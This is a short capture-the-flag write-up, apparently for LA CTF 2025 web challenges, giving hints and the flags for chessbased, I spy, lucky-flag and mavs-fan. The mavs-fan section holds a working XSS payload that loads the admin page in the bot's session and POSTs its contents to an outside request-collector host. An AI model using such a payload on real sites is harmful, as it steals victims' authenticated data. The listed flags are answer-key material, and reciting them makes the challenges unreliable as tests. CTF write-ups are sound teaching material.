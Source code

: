 # web

## chessbased
[chall](https://github.com/uclaacm/lactf-archive/tree/main/2025/web/chessbased)  
flag is in `opening.js`.  

You can get flag in `/render?id=flag` without adming bot..

`lactf{t00_b4s3d_4t_ch3ss_f3_kf2}` 

## I spy..
[chall](https://github.com/uclaacm/lactf-archive/tree/main/2025/web/i-spy)  
* input token in page
* input token from HTML source code with F12
* input token in console
* input token in css file
* input token in javascript file
* input token in HTTP header
* input token in cookie
* input token in `/robots.txt`
* input token in `/sitemap.xml`
* input token by send request using DELETE method
* input token int TXT record

`lactf{1_sp0773d_z_t0k3ns_4v3rywh3r3}`

## lucky-flag
[chall](https://github.com/uclaacm/lactf-archive/tree/main/2025/web/lucky-flag)  
Else in function of `main.js` prints flag.  
Just copy and paste function that prints flag.  

`lactf{w4s_i7_luck_0r_ski11}`

## mavs-fan
[chall](https://github.com/uclaacm/lactf-archive/tree/main/2025/web/mavs-fan)  
[admin bot](https://github.com/uclaacm/lactf-archive/tree/main/2025/admin-bot)  
```html
<image src='x' onerror= "

    fetch('https://mavs-fan.chall.lac.tf/admin/', {
        method: 'GET',
        headers: {
            'Accept': 'text/html'
        }
    })
    .then(response => response.text())
    .then(data => {
        fetch('https://example.request.dreamhack.games', {  
            method: 'POST',
            headers: {
                'Content-Type': 'text/plain'
            },
            body: data
        });
    })
    .catch(error => console.error('Error:', error));

"/>
```
Use XSS script.  

